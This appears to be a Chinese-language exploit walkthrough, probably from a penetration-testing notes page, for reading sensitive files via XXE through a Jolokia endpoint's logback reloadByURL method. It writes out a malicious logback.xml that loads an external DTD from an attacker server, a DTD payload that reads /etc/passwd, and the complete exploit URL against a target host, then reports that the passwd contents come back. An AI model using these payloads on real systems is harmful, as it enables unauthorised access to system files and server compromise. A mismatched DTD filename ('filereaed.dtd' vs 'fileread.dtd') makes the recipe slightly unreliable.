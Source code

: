 

**读取敏感文件**

创建xml文档logback.xml

请求访问fileread.dtd文件，192.168.233.1为服务器ip

>   ```
>   <?xml version="1.0" encoding="utf-8" ?\>
>   
>    \<!DOCTYPE a [ \<!ENTITY % remote SYSTEM
>   
>     "http://192.168.233.1/filereaed.dtd"\>%remote;%int;]\>
>   
>   \<a\>&trick;\</a\>
>   ```



将该xml放到服务器上，用于访问获取

![](media/2c2311a2d34ee6ff782221a35d920431.png)

创建文件fileread.dtd，读取/etc/passwd文件

>   ```
>    <!ENTITY % d SYSTEM "file:///etc/passwd">
>   
>    <!ENTITY % int "<!ENTITY trick SYSTEM ':%d;'>">
>   ```

![](media/f2d4373437722b5f3d7ac97085b66953.png)



在外部构造url访问，Payload如下：

```
http://192.168.233.247:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/192.168.233.1!/logback.xml
```

可以看到返回的信息中存在etc/passwd的用户信息
